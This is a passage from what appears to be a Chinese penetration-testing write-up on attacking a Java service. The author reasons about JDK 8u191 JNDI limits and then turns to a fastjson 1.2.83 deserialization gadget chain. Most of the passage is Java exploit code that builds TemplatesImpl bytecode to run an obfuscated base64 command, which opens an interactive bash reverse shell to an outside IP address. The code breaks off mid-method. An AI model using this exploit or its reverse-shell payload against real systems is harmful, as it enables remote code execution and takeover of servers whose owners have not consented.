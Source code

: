 [![](assets/1708870136-75a3a547394ea06c60464f76bf41bcb2.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121585.png)​

发现 java 版本为`jdk1.8.0_222`​,因为在 log4j 打的其实就是 JNDI 注入，所以第一时间想到的就是 此版本已经是 jdk8u191 之后了，所以就不能够进行远程加载类了，那再探测下`fastjson`​的 1.2.83 使用通用的链子来打一下

```plain
package Fastjson;
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class F83 {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\""+cmd+"\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void main(String[] args) throws Exception {


        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTIuMTM2LjQ2LjI4Lzc5NzkgMD4mMQ==}|{base64,-d}|{bash,-i}")});
```